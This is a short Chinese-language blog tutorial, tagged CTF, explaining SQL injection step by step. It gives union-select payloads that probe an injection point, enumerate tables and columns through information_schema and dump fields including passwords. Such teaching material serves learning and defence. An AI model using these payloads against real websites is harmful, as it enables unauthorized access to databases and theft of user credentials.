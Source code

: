 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      浅述SQL注入            # 标题 
subtitle:    #副标题
date:       2019-11-19              # 时间
author:     ONLYUNIVERSE                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    CTF 
---
```


## 什么是SQL注入

用户正常来说是不能访问网页的后台的，但是总有一些~~聪明的~~管理员忘记对用户输入的内容进行过滤。于是恶意攻击者就会在正常的输入后面添加一些SQL语句以达到访问后台数据的目的。  

## 怎么进行SQL注入  

### 首先  

我们需要判断能否注入：在输入框中输入:  
`1' and 1=1#`  
然后这样一段代码就会被网页当作正常的请求带入数据库中  
数据库中的代码可能为：  
`$getid = "SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1 "#'"`  
"#"后面的内容全部被注释掉，前面的SQL语句被执行，重新在输入框中输入  
`1' and 1=2#`  
恒不成立  
如果第一次不出错，第二次出错，表明这里是一个注入点  

### 然后

开始查询我们想要的信息：  
**1.列数量查询：**`order by n`查询这个表中有几列  
**2.查询数据库名：** 使用union联合查询`1' union select 1,database() #`返回数据库名  
**3.查询所有表名：**`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`  

>group_concat() 是一个函数，将同一个id的其他字段合并起来。 table_name 就是表名的意思  
>information_schema.tables 是MySQL提供的自带的数据库，主要是提供用户自行建立的一些表的信息。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等  
>table_schema=database() 指数据库名为database()  

**4.查询字段名：**`1’ union select 1,group_concat(column_name) from information_schema.columns where table_name='`~~某一个表名~~`' #`  
***铺垫已经完成，接下来我们可以查询所有信息了：***  
`1’ or 1=1 union select group_concat(`~~某一个字段~~`,`~~另一个字段~~`,`~~另另一个字段~~`),group_concat(password)from`~~表名~~ `'#`
